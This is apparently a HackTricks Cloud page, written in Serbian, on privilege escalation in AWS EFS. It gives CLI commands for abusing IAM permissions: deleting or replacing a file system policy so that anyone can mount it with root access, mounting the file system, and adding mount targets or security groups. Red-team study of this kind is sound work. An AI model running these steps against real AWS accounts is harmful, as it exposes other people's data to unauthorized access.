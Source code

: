 # AWS - EFS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EFS

Više **informacija o EFS** u:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Zapamtite da da biste montirali EFS, morate biti u podmreži gde je EFS izložen i imati pristup njemu (grupe bezbednosti). Ako se to dešava, po defaultu, uvek ćete moći da ga montirate, međutim, ako je zaštićen IAM politikama, potrebno je da imate dodatne dozvole pomenute ovde da biste mu pristupili.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Sa bilo kojom od tih dozvola, napadač može **promeniti politiku datotečnog sistema** da **omogući pristup** ili jednostavno **izbrisati** tako da se **default pristup** dodeli.

Da biste izbrisali politiku:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Da biste to promenili:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Sa ovom dozvolom, napadač će moći da **montira EFS**. Ako dozvola za pisanje nije data podrazumevano svima koji mogu da montiraju EFS, imaće samo **pristup za čitanje**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Dodatne dozvole `elasticfilesystem:ClientRootAccess` i `elasticfilesystem:ClientWrite` mogu se koristiti za **pisanje** unutar datotečnog sistema nakon što je montiran i za **pristup** tom datotečnom sistemu **kao root**.

**Potencijalni uticaj:** Indirektna eskalacija privilegija pronalaženjem osetljivih informacija u datotečnom sistemu.

### `elasticfilesystem:CreateMountTarget`

Ako je napadač unutar **podmreže** gde **nema montažne tačke** EFS-a. On bi mogao jednostavno **da kreira jednu u svojoj podmreži** sa ovom privilegijom:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Potencijalni uticaj:** Indirektno privesc pronalaženjem osetljivih informacija u fajl sistemu.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

U scenariju gde napadač otkrije da EFS ima mount target u njegovoj podmreži, ali **nema sigurnosne grupe koja dozvoljava saobraćaj**, mogao bi jednostavno **promeniti to modifikovanjem odabranih sigurnosnih grupa**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Potencijalni uticaj:** Indirektno eskaliranje privilegija pronalaženjem osetljivih informacija u fajl sistemu.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
